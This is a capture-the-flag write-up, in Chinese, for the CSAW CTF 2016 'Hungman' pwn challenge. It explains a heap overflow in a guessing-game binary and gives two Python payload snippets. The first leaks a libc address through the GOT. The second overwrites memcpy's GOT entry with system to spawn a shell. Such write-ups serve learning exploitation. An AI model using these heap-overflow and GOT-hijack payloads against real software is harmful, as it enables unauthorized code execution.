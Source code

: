 ```yaml
---
title: '[CSAW CTF 2016] Hungman 300'
author: nae
tags:
  - CSAW CTF 2016
  - pwn
  - heap
categories:
  - write-ups
date: 2016-09-19
layout: post
---
```

## Info
> Category: pwn		
> Point: 300	
> Solver: nae @ BambooFox	
> 第一次貢獻大分數給 BambooFox，雖然這次比賽比較簡單，但還是很感動QQ

## Analyzing
64 bit ELF, NX, Partial RELRO, Stack Canary, no PIE

程式一開始會要求輸入名字，而他會 `malloc` 名字長度的記憶體來存放使用者輸入的名字，接著會 `malloc` 一塊 0x80 大小的 heap，以下稱之為 `key_heap`，第一格**高位** 4 bytes 會存放 length of name，第二格則儲存著 name's heap 的位址。

name's heap & key_heap 的 memory layout 如下：

~~~python
	low     ->     high
	+ ------------- +  name's heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|      name     |  32 bytes
	|               |		|
	|               |		|
	|               |		v
	+ ------------- +  key_heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|       |length |
	| ------------- |
	|  name's heap  |
	+ ------------- +
~~~
輸入完名字之後，回到了 `main`，接著便進入玩遊戲的 function 以下稱為 game。

遊戲是猜小寫英文字母，然後如果分數超過 64 分可以重新改名字，而改寫名字時可以在 heap 上進行 overflow。

因為是猜小寫字母，而照他的規則一開始輸入名字的長度
決定可以猜的次數，因此一開始輸入名字時就給他來個 `'A'*26`，這樣基本上從 a 猜到 z 猜到一半就能夠破分數紀錄而改寫名字。

改寫名字的 code 重點如下：

~~~c
s = malloc(248);
memset(s, 0, 248);
len_of_new_name = read(0, s, 248);
*(_DWORD*)(a1 + 4) = len_of_new_name; // 把剛剛 key_heap 存 name size 的地方改成 new name 的 size
memcpy(*(void**)(a1 + 8), s, len_of_new_name);
free(s);
~~~
	
由上面的 code 可以發現，他最長可以讀 248 bytes，而我們一開始輸入的名字長度只有 26，因此 new name 可以好好的構造來 **leak information**。

因為離開 game 後會把新名字 dump 出來，而程式找 `name_heap` 的方式是靠 `key_heap` 的第二格來找，因此在剛剛的 overflow 時我們將原本儲存著 name's heap address 的那格改成 GOT entry，這樣一來，在 dump new name 的時候便可以 **leak libc information** 接著利用主辦方給的 libc 就可以找到 `libc base`。

這邊 overflow 的 payload 如下：

~~~python
payload = 'A'*32 # padding
payload += p64(0) # previous size
payload += p64(0x91) # size
payload += p32(0x20) # score
payload += p32(0x1b) # len_of_new_name
payload += p64(libc_start_main) # __libc_start_main GOT entry
~~~

size 那邊沒必要寫壞就寫回原來的值，下一格的**低位** 4 bytes 會是 這次刷新的分數(下面提供相關 code)，為了加速下次玩遊戲時間，把分數改低一點，然後因為猜個 26 次就很夠了所以**高位** 4 bytes 寫回原來的長度就好了，接下來再玩一次。

~~~c
score = *(_DWARD*)a1;
~~~

第二次改名時就不會改到 name's heap，會改到剛剛 overwrite 的 `__libc_start_main` GOT entry 上。

GOT table 的 libc function order:

~~~
__libc_start_main@got.plt
__gmon_start__@got.plt
memcpy@got.plt
malloc@got.plt
setvbuf@got.plt
~~~	
因為在改名字時有一段 code 是 `memcpy(*(void**)(a1+8), s, len_of_new_name)`，所以把 `memcpy` 的 GOT hijack 掉改成 `system`，要注意的點是改名字時會用到 `malloc` 而 `read` 會在結尾補 `\x00` 所以乾脆直接連 `malloc` 也一起蓋正確的 `libc address` 確保他不會壞，而 `malloc` 的下一個 function 後面用不到就不用管他。這邊 payload 開頭我就先送 `'sh\x00'` 上去這樣 `memcpy` 的一開始就可以直接 `system('sh')`。

第二次的 payload:

~~~python
payload = "sh\x00".ljust(8)
payload += 'A'*8
payload += p64(system)
payload += p64(malloc)
~~~

之後再玩一次遊戲，然後改名字的時候隨便輸入就可以拿到 shell。

	